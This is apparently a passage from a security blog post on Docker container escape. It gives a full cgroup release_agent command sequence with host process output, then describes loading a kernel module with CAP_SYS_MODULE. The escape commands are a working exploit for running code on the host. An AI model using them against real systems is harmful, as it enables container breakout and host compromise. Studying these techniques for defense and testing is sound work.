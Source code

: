 The following commands are necessary to perform the attack:

```
# mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/escape_cgroup

# echo 1 > /tmp/cgrp/escape_cgroup/notify_on_release
# host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
# echo "$host_path/cmd" > /tmp/cgrp/release_agent

# echo '#!/bin/sh' > /cmd
# echo "ps aux | /sbin/tee $host_path/cmdout" >> /cmd
# chmod a+x /cmd

# sh -c "echo 0 > /tmp/cgrp/escape_cgroup/cgroup.procs" 
# sleep 1
# head /cmdout
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.1 108272 11216 ?        Ss   20:57   0:00 /sbin/init
root           2  0.0  0.0      0     0 ?        S    20:57   0:00 [kthreadd]
root           3  0.0  0.0      0     0 ?        I<   20:57   0:00 [rcu_gp]
root           4  0.0  0.0      0     0 ?        I<   20:57   0:00 [rcu_par_gp]
root           6  0.0  0.0      0     0 ?        I<   20:57   0:00 [kworker/0:0H-kblockd]
root           7  0.0  0.0      0     0 ?        I    20:57   0:00 [kworker/u8:0-events_power_efficient]
root           8  0.0  0.0      0     0 ?        I<   20:57   0:00 [mm_percpu_wq]
root           9  0.0  0.0      0     0 ?        S    20:57   0:00 [ksoftirqd/0]
root          10  0.0  0.0      0     0 ?        S    20:57   0:00 [rcuc/0]
```

To by honest, this **technique** was in my setup **a bit flaky** and I had some issues while repeating it. Do not worry if it is not working on the first try.

#### `CAP_SYS_Module` – Load Kernel Module 

What do you need to **load a kernel module on a Unix host**? Exact, the right capability: `CAP_SYS_MODULE`. In advance, you **must** be in the **same process namespace as** the **init** process, but **that is default** in case of plain Docker setups. You think now _how dare you_ this is something nobody would do!? That is exactly what happened to _Play-with-Docker_. I recommend reading the post [How I Hacked Play-with-Docker and Remotely Ran Code on the Host](https://www.cyberark.com/resources/threat-research-blog/how-i-hacked-play-with-docker-and-remotely-ran-code-on-the-host) by Nimrod Stoler ([@n1mr0d5](https://twitter.com/n1mr0d5)) to get all insights and the full picture.

The exploitation cannot be that easily weaponized, because we need a **kernel module** that **fits** the **kernel version**. To do so, we need to **compile** our own **kernel module** for the host system kerne. I thought initially that’s an easy one, just _copy&paste_ the code, compile and finished. Sounds easy? It is not that easy if you have an Ubuntu container on an Archlinux host – sigh.

To perform the steps I had to cheat a bit. Previously, we have performed all steps from inside the container. This time, I will **pre-compile** the **kernel module outside** of the **container**. Why is that necessary in my case? Because I had issues to compile the kernel module for the Archlinux kernel inside an ubuntu container with the Ubuntu toolchain. I am not a kernel developer, so I dropped to dive into the issues and let someone with more expertise to deep-dive on that topic.

To **prepare** the **kernel module**, you **need** the **kernel headers** for the host that runs the container. You can find them while googling through the internet and search for the kernel version headers (kernel version can be identified by `uname -r`). Afterward, you need the _gcc_ compiler and _make_ and that’s it.
